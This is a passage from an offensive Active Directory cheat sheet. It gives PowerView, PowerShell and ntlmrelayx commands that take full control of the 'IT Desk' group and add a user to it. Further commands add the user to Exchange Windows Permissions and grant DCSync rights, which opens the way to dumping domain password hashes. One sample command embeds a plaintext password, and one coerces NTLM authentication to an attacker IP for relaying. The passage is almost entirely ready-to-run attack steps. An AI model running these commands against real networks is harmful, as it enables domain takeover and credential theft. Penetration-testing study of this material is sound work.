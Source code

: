 The attacker can take the full control of discovered groups and then add a users to them:

```
PV3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PV3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

{% hint style="info" %}
Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purge
Cmd > gpupdate /force
Cmd > dir \\dc1.megacorp.local\c$
```
{% endhint %}




## Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```

Add DCSync rights with PowerView2:

```
PV2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```

Add DCSync rights with PowerView3:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PV3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Add DCSync rights with [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/50c76958706577a5005bec2ee1fda9e9fa669a65/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L293):

```
PS > IWR http://10.10.13.37 -UseDefaultCredentials
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
```

Add DCSync rights with aclpwn.py:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

